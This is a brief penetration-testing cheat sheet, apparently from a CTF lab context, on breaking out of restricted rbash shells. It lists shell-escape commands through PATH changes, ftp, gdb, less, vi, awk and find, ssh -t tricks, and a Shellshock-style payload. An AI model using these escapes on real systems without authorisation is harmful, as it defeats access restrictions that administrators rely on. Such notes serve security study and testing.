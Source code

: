 # How to break out of a restricted shell - rbash
https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells
https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells

Steps to follow -

1. Run 'env'
2. echo $PATH
3. echo $SHELL
4. Try basic commands like ls, cd, pwd, cd .., env, set ,export, vi, cp ,mv


# Next try these -

1. if '/' are allowed then run /bin/sh
2. if you can set PATH and SHELL variables
    export PATH=/bin:/usr/bin:$PATH
OR  export SHELL=/bin/sh
3. If we can copy files then
    cp /bin/sh /some/dir/from/PATH; sh

# Try the installed utilities

1. ftp -> !/bin/sh
2. gdb -> !/bin/sh
3. more/less/man -> !/bin/sh
4. vi/vim -> :!/bin/sh
5. scp -S /tmp/getout.sh x y:
6. awk 'BEGIN {system("/bin/sh")}'
7. find / name random -exec /bin/sh \;

# External help

Use commands in ssh to help break out like -
1. ssh mindy@10.10.10.51 -t "bash --noprofile"
2. ssh user@IP_ADDRESS -t "() { :; }; /bin/bash"
3. ssh mindy@10.10.10.51 -t "/bin/sh"